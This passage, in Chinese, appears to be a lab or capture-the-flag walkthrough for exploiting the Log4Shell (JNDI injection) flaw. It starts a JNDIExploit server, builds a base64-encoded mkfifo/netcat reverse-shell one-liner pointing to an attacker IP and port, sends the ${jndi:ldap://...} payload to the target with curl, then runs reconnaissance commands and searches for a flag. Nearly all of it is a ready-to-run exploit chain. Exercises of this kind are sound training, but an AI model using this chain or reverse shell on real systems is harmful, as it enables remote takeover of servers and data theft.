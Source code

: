 ![1742634333574](image/网络安全丁梦/1742634333574.png)

2. **在另一个终端启动JNDI服务**：

```bash
java -jar JNDIExploit-1.2-SNAPSHOT.jar -i 10.37.132.3
```

![1742634318914](image/网络安全丁梦/1742634318914.png)

3. **生成反弹shell命令**：

```bash
echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.37.132.3 9999 >/tmp/f' | base64
```

4. **发送漏洞利用请求**（使用生成的base64编码）：

```bash
curl -X GET "http://10.37.133.3:56334/hello?payload=\${jndi:ldap://10.37.132.3:1389/Basic/Command/Base64/cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnwvYmluL3NoIC1pIDI+JjF8bmMgMTAuMzcuMTMyLjMgOTk5OSA+L3RtcC9mCg==}"
```

![1742634305767](image/网络安全丁梦/1742634305767.png)

如果成功，你会在nc监听窗口看到shell连接。然后在获得的shell中执行：

```bash
whoami
pwd
find / -name flag 2>/dev/null
ls -la /root
```
